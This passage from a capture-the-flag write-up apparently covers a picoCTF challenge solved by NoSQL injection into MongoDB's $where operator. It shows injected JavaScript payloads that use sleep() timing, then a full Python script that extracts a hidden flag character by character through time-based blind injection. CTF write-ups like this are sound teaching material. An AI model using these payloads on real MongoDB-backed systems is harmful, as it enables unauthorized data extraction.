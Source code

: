 Next, I tried:

    {"$where": "function() {if(this.flag.length > 0){sleep(10000);} return true;"}

which returns a `MongoDB` error. Unsure about why, I did some debugging:

    {"$where": "function(){return true;}"}

returns all documents (except the flag) -- eight in total.

    {"$where": "function(){sleep(3000);return true;}"}

sleeps for about 27 seconds: three seconds per document that I received back, plus three more seconds for the flag.

    {"$where": "function(){if(this.flag){sleep(3000);}return true;}"}

sleeps for three seconds. That's how I determined that only the flag document has a `flag` property, and corrected my previous query:

    {"$where": "function(){if(this.flag && this.flag.length > 2){sleep(3000);}return true;}"}

The query properly sleeps for three seconds. The previous error message resulted from checking the length of a property (aka field) that is undefined for at least one document.

Now, we have a way to read the flag without returning it, using methods similar to a blind SQL injection. After reading the documentation for sending POST requests straight from Python, I can now follow LFlare's approach. Here's the exploit:

    # Kaley Ceilidh

    import requests
    time_padding = 20

    def get_flag_character(i):
        payload = dict({"$where":"function(){" + \
                                 "  if(this.flag && this.flag.length > 2){" + \
                                 "    sleep(this.flag.charCodeAt(" + str(i) + ")*"+str(time_padding)+");}" + \
                                 "  return true;}"})
        r = requests.post('http://shell2017.picoctf.com:8080/search', json=payload )
        return chr(r.json()['time']//time_padding)

    result = ""
    for i in range(50):
        try:
           result += get_flag_character(i)
           print(result)
        except:
           print(result)
